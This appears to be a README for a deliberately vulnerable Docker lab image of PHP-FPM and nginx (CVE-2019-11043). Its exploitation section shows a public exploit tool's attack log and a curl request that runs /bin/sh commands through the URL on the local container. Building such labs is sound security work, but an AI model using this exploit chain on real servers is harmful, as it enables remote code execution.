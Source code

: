 A docker image with a vulnerable version of PHP-FPM (CVE-2019-11043) and nginx.

# Run
`docker run --rm -p8080:80 akamajoris/cve-2019-11043`
You should be able to access the web application at http://your-ip:8080/.

# Exploitation

Build a binary from `https://github.com/neex/phuip-fpizdam`, then

```

root@debian:~/gopath/bin# curl "localhost:8080/?a=/bin/sh+-c+'which+which'"
1
root@debian:~/gopath/bin#./phuip-fpizdam http://localhost:8080/index.php
2019/10/24 08:53:00 Base status code is 200
2019/10/24 08:53:00 Status code 502 for qsl=1765, adding as a candidate
2019/10/24 08:53:00 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2019/10/24 08:53:00 Attack params found: --qsl 1755 --pisos 182 --skip-detect
2019/10/24 08:53:00 Trying to set "session.auto_start=0"...
2019/10/24 08:53:00 Detect() returned attack params: --qsl 1755 --pisos 182 --skip-detect <-- REMEMBER THIS
2019/10/24 08:53:00 Performing attack using php.ini settings...
2019/10/24 08:53:00 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/24 08:53:00 Trying to cleanup /tmp/a...
2019/10/24 08:53:00 Done!
root@debian:~/gopath/bin# curl "localhost:8080/?a=/bin/sh+-c+'which+which'"
/usr/bin/which
```


